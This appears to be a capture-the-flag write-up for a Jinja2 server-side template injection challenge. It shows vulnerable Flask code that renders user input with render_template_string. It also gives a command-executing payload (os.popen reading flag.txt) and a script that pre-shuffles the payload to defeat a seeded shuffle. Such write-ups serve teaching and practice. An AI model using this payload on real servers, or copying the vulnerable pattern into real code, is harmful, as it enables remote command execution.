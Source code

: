 ## Winds
This is an Jinja2 SSTI challenge, which they used render_template_string with untrusted data.
```python
@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))
```
The tricky part was that the text was shuffle, but with the seed 0, we could preshuffle the payload so that it worked.
```python
import random

def unshuffle(text):
    random.seed(0)
    a = list(range(len(text)))
    random.shuffle(a)
    new_text = 'X'*len(text)
    for i in range(len(text)):
        new_text = text[i] + new_text[a[i]+1:]
    jumbled = ''.join(text[a.index(i)] for i in range(len(text)))
    return jumbled

payload = "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

def shuffler(payload):
    random.seed(0)
    jumbled = list(payload)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)
    return jumbled

a  = unshuffle(payload)
print(a)
```
